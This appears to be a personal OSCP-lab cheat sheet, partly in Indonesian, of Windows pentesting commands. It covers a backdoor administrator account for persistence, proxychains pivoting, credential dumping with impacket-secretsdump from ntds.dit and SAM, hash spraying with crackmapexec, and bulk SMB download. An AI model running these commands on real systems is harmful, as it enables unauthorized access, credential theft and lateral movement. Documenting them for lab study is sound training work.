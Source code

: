 # FIX PYTHON2 IMPACKET FOR OLD EXPLOITS (SPENT HOURS ON THIS)
https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script 
```bash
cd /opt/impacket/

virtualenv impacket-venv -p $(which python2)

source /opt/impacket/impacket-venv/bin/activate

pip install impacket==0.9.15 # JANGAN PAKE pip install requirements.txt dan pip install . (DAH GW COBA, BAKAL NGACO)
```
## Persistence
```cmd
net user nox password123! /add
net localgroup administrators nox /add
net localgroup "Remote Desktop Users" nox /add
net localgroup "Remote Management Users" nox /add
```

## SQUID PROXY BISA DIPAKE BUAT PROXYCHAINS KE INTERNAL
```/etc/proxychains.conf
http 192.168.194.224 3128 <squid_proxy_user> <squid_proxy_password>
```

## Tips
1. Kalo SCP gk bisa, coba pake flag -O buat source filenya ([OSCP Practice Series 60]).
2. GraphQL - Gatsby and Depreciated [OSCP Prep Series]
3. Deserialization (ysoserial) - [OSCP Practice Series 52] Proving Grounds — Cassios
4. Zip, PHP zip wrapper for RCE https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/
5. PRESS EVERY BUTTON ON THE WEB.
6. Windows >> SYSTEM + ntds.dit == `impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL` (OSCP Practice Series 65 - Resourced)
https://www.bordergate.co.uk/extracting-windows-credentials-using-native-tools/
```cmd
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

-security >> GK WAJIB
```
>> SELALU CHECK windows.old directory. >> CARI SAM DAN SYSTEM KALO BISA DIDOWNLOAD.

7. Check valid hash yang bisa di winrm
```cmd
crackmapexec winrm 192.168.167.175 -u <users_file_or_string> -H <hash_or_hashfile>
crackmapexec smb 192.168.167.175 -u <users_file_or_string> -H <hash_or_hashfile>
proxychains crackmapexec winrm ips.txt -u wario -p 'Mushroom!'

(OSCP Practice Series 65 - Resourced) - https://medium.com/@ardian.danny/oscp-practice-series-65-proving-grounds-resourced-05eb9a129e28
```
8. GenericAll, Resourced-based Constrained Delegation Attack (Resource base)
```cmd
[OSCP Practice Series 65] Proving Grounds-Resourced
https://medium.com/@ardian.danny/oscp-practice-series-65-proving-grounds-resourced-05eb9a129e28
```
9. SMB download all files and directory
```smb
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```